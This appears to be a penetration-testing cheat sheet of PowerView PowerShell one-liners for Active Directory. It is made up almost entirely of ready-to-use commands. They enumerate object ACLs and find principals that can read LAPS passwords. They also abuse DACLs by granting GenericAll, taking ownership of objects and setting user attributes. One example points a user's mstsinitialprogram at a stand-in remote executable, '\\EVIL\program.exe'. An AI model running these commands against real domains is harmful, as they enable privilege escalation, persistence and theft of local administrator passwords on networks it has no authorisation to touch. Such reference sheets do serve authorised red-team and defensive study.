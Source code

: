 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 


## DACL - Get ACLs of an object 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## DACL - Find all domain user DACL
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## DACL - Add GenericAll to target for user
#cat/ATTACK/DACL-ABUSE
```powershell
Add-DomainObjectAcl -TargetIdentity <ldap_path> -PrincipalIdentity <current_user> -Rights All
```

## DACL - Set the owner 
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObjectOwner -Identity <target_object> -OwnerIdentity <user>
```

## DACL - set the specified property for the given user identity
@{'mstsinitialprogram'='\\EVIL\program.exe'}
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObject <user> -Set @{'<property>'='<value>'} -Verbose
```

## DACL - Enumerate Principals that can read LAPS
#cat/RECON/DACL
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```